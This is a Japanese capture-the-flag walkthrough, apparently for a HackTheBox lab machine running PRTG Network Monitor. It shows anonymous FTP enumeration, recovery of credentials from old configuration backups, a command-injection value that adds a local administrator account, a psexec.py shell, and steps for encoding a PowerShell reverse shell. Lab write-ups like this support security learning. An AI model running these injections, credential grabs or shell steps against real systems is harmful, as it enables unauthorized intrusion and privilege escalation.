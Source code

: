 - nmap 
	- 21 ftp
	- 80 http
	- 135 msrpc
	- 139 metbios-ssn
	- 445 microsoft-ds
- FTPがanonymousでログインできCドライブ以下が参照できる
- PublicのDesktopにuser.txtがある
- 情報収集できそうなファイルの取得
	- WindowsUpdate.log
	- license.rtf
	- win.ini
	- hosts
- Windows Update logを確認
	- windows > SoftwareDistribution > DownloadはWindowsアップデートが配置される場所
- IPアドレスをブラウザで開くと「PRTG Network Monitor」のログイン画面が表示される
- PRTGのデフォルトのパスワードで認証できない
- PRTG Networkの構成ファイルを検索してみる
 ![3e6918e3c222bfd622d4cdd92aeaa1df.png](../../_resources/3e6918e3c222bfd622d4cdd92aeaa1df.png)  
 ![7714e7150c3a95df3b95edf8f08a39cb.png](../../_resources/7714e7150c3a95df3b95edf8f08a39cb.png)   
 - Programdata > Paessler > PRTG Network Monitorに移動
 - ファイルをダウンロード
	 - PRTG Configuration.dat
	 - PRTG Configuration.old
	 - PRTG Configuration.old.bak
- ハッシュ値を確認すると.datと.oldが同じ値なので.oldを削除
- それぞれのファイルの内容を確認
- .old内にユーザー名とパスワードがある
- パスワードを2019に変えるとログインできる
- [PRTGにコマンドインジェクションの脆弱性](https://codewatch.org/2018/06/25/prtg-18-2-39-command-injection-vulnerability/)があることがわかるのでそれを利用する   
- Setup > Account Settings > Notifications
- 一番右にあるプラスをクリックしてから、「新しい通知を追加」をクリックします。
- 他のすべてを変更せずに、一番下までスクロールして [プログラムの実行] を選択します。
- インジェクションはパラメータにあります。
- Program Fileにデモのps1ファイルを選択
- Parameterにインジェクションを入れる
```
ユーザーを追加する方法
test.txt;net user anon p3nT3st! /add;net localgroup administrators anon /add
```
- smbmapで権限確認
```
smbmap -H 10.10.10.152 -u anon -p "p3nT3st!"
```
- フルアクセス可能なのでpsexec.pyでシェルを獲る
```
psexec.py 'anon:p3nT3st!@10.10.10.152'
```
---
```
リバースシェルを取りに行く方法
※reverse.ps1はInvok-PowershellTcpInvok-PowerShellTcp.ps1
cat reverse.ps1 | iconv -t  UTF-16LE | base64 -w0 | xclip -selection clipboard
結果を直接Parameterに貼り付ける
```